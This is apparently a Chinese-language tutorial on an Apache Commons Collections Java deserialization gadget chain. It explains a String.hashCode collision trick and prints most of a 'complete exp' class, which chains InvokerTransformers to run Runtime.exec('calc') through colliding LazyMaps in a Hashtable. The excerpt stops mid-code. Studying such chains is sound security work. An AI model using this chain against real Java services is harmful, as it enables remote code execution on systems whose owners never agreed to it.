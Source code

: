 在hashCode这个方法中，当我们传入两个字符得时候，加密就变成了`31*ASCII(s1[0]) + ASCII(s1[1])`

我们只要构造两个这个数值相同得字符串就可以绕过

```plain
public int hashCode() {
        int h = hash;
        if (h == 0 && value.length > 0) {
            char val[] = value;

            for (int i = 0; i < value.length; i++) {
                h = 31 * h + val[i];
            }
            hash = h;
        }
        return h;
    }
```

完整exp

```plain
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);

        Map innerMap1 = new HashMap();
        innerMap1.put("pP", 1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo", 1);

        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
        lazyMap2.remove("pP");

        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
```